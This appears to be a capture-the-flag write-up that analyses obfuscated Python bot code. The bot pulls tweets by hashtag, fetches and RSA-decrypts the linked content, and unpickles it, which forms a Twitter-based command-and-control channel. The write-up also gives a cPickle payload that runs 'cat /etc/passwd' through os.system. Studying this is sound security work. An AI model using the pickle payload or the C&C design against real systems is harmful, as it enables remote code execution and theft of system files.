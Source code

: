 ```python
def decrypt(cipher_text):
    print cipher_text
    return 'err'
    try:
        OOo0o0 = RSA.importKey(open('ekobot.pem').read())
        O0OoOoo00o = b64decode(cipher_text)
        iiiI11 = OOo0o0.decrypt(O0OoOoo00o)
        return iiiI11
    except Exception as OOooO:
        print str(OOooO)
        return 'Err'
twython_object = Twython(Secret, key, oauth_version=2)
access_token = twython_object.obtain_access_token()
twython_object = Twython(Secret, access_token=access_token)
max_id = o0oO0()
search_result = twython_object.search(q='#' + name, rpp='250', result_type='mixed', since_id=max_id)

for i in search_result['statuses']:
    print i['id']
    if i['id'] > max_id:
        max_id = i['id']
    iii11iII = 0
    try:
        for i1I111I in i['entities']['hashtags']:
            if i1I111I['text'] == name:
                iii11iII = 1

        if iii11iII == 1:
            for j in i['entities']['urls']:
                if True:
                    IiIiIi = decrypt(get_content(j['url']))
                    print IiIiIi
                    if IiIiIi[0:5] == 'eko11':
                        cPickle.loads(IiIiIi[5:])
                    #os._exit(0)

    except Exception as OOooO:
        print str(OOooO)

print max_id
```
Now twython is Python wrapper for the Twitter API. Here first the program is registering itself and then searching for tweets with 'ekoctf' tag. For every tweet it will try to extract a url from it, then visit the url and dowload the content if its 'text\plain' Content-type. Next this content is decrypted by some private key locally stored. The decrypted plaintext is verified for starting with 'eko11' and the rest is loaded os cPickle.

cPickle is used to serialize python objects and suffers from code execution on loads().

```python
cPickle.loads('cos\nsystem\n(S'cat /etc/passwd'\ntR.'\ntR.')
```
If this service is being run somewhere then we can have code execution on that machine just by Tweeting our commands.
A nice example of C&C( command and control ).
